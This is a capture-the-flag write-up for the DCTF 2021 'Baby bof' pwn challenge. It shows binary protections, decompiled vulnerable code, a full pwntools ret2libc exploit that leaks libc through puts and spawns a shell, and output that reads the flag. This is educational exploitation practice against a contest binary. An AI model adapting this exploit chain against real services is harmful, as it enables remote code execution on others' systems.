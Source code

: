 # DCTF 2021

## Baby bof

> 250
> 
> It's just another bof. 
> 
> `nc dctf-chall-baby-bof.westeurope.azurecontainer.io 7481`
>
> [hotel\_rop](hotel_rop) [Dockerfile](Dockerfile)

Tags: _pwn_ _x86-64_ _bof_ _rop_ _ret2libc_


## Summary

Classic two-pass leak libc, return to vuln, get a shell.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Partial RELRO--GOT overwrite; no canary--BOF/ROP; no PIE--easy ROP.


### Decompile with Ghidra

```c
void vuln(void)
{
  char local_12 [10];
  
  puts("plz don\'t rop me");
  fgets(local_12,0x100,stdin);
  puts("i don\'t think this will work");
  return;
}
```

Write out `0x12` of garbage to get to return address in stack and start ROP.

> The libc version was provided in the form of a `Dockerfile`.  I've included it (`libc.so.6`) as part of this writeup since a future update to Ubuntu 20.04 may change the version of libc.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./baby_bof')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

if args.REMOTE:
    p = remote('dctf-chall-baby-bof.westeurope.azurecontainer.io', 7481)
    libc = ELF('./libc.so.6')
else:
    p = process(binary.path)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

pop_rdi = next(binary.search(asm('pop rdi; ret')))

payload  = b''
payload += 0x12 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(binary.sym.vuln)

p.sendlineafter('me\n',payload)
p.recvuntil('work\n')

puts = u64(p.recv(6) + b'\0\0')
log.info('puts: ' + hex(puts))
libc.address = puts - libc.sym.puts
log.info('libc.address: ' + hex(libc.address))

payload  = 0x12 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(libc.search(b'/bin/sh').__next__())
payload += p64(libc.sym.system)

p.sendlineafter('me\n',payload)
p.recvuntil('work\n')
p.interactive()
```

If this does not make sense, then click [here](https://github.com/datajerk/ctf-write-ups/blob/master/INDEX.md), scroll down to ROP, and start reading, perhaps start [here](https://github.com/datajerk/ctf-write-ups/blob/master/darkctf2020/roprop) or [here](https://github.com/datajerk/ctf-write-ups/tree/master/downunderctf2020/return_to_what) for nearly identical examples.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/dctf2021/baby_bof/baby_bof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to dctf-chall-baby-bof.westeurope.azurecontainer.io on port 7481: Done
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] puts: 0x7f0d964c25a0
[*] libc.address: 0x7f0d9643b000
[*] Switching to interactive mode
$ cat flag.txt
dctf{D0_y0U_H4v3_A_T3mpl4t3_f0R_tH3s3}
```
